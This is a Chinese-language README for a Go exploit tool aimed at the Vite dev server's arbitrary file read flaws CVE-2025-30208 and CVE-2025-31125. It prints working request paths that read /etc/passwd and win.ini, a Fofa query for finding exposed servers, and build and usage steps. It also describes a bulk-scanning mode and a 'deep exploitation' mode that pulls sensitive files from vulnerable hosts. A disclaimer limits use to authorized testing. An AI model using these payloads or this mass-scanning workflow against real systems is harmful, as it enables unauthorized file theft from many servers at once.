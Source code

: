 # CVE-2025-30208  AND  CVE-2025-31125
针对CVE-2025-30208和CVE-2025-31125的简单漏洞利用
## 漏洞介绍
两个漏洞都是关于Vite开发服务器任意文件读取漏洞，这两个漏洞覆盖面大且利用简单不受限制。

### 漏洞POC：
CVE-2025-30208：
>Windows: /@fs/C://Windows/win.ini?import&raw??
> 
> Linux: /@fs/etc/passwd?import&raw??

CVE-2025-31125
> Windows: /@fs/C://windows/win.ini?import&?inline=1.wasm?init
>
> Linux: /@fs/etc/passwd?import&?inline=1.wasm?init

路径中的/@fs可以不需要携带。

### Fofa测绘语法：
> body="/@vite/client"

## 脚本使用介绍
### 脚本特点
1. 可以联动fofa进行批量利用
2. 会解析存在漏洞的精确路径并进行深度利用

### 编译说明
go版本：`go 1.20以上版本`

进入到项目根目录

先同步一下依赖
> go mod tidy

然后编译项目
>  go build -o ViteVulScan -ldflags="-s -w" -trimpath .

` ./CVE_2025_3020`即可运行该脚本。

当然你也可以直接在项目根目录下运行该项目:
> go run . 

### 配置
脚本支持联动fofa搜索资产然后进行批量检测。

要想使用fofa，要确保app.ini文件和编译后的二进制文件在同一目录，并且需要修改app.ini文件，其中的fofakey字段填上自己的fofakey，num是自己估摸要检测的大概资产数量。

如果你有针对该漏洞更好的fofa测绘语法，可以自行修改fofaQuery字段。

### 命令行参数介绍
> Usage of ./ViteVulScan:

| 参数                      |                                        描述                                        |
|-------------------------|:--------------------------------------------------------------------------------:|
| -cve                    |        使用哪个cve漏洞进行检测。支持CVE_2025_30208和CVE_2025_31125。默认使用CVE_2025_30208。         |
| -fofa                   |                        指定该参数后，会联动fofa测绘资产，对得到的目标资产进行批量检测                         |
| -u    \|    -url        |                                 指定单个url目标，对其进行检测                                 |
| -f     \|     -filename |                               指定一个文件名，批量检测其中的url地址                               |
| -e                      | 指定该参数后，会对检测存在漏洞的资产进行深度利用，读取各种可能存在的敏感文件并保存在本地。(请谨慎使用该功能，最好是对单个目标检测，也就是使用-u时加上该参数) |

> 说明：
> 
> 1. 批量检测一个文件中的所有目标URL，确保文件中每行一个URL即可，URL可以是包含http的完整URL，也可以是一个域名或者ip，比如：
   ````text
     http://example1.com 
     example2.com
     127.0.0.1
   ````
> 2. 当指定-fofa和-f参数进行检测后，会自动将存在漏洞的资产保存到当前文件下，文件名格式为"当下时间戳.csv"。
> 
> 3. 同时支持对linux和windows平台进行利用，利用的字典分别为linux_sensitive_path.txt和windows_sensitive_path.txt，如果有更多敏感路径，可以自己在相应的字典中进行添加。

# 免责声明
本工具仅用于安全研究和授权测试，请勿用于非法用途。使用本工具进行任何未经授权的测试所造成的后果由使用者自行承担。
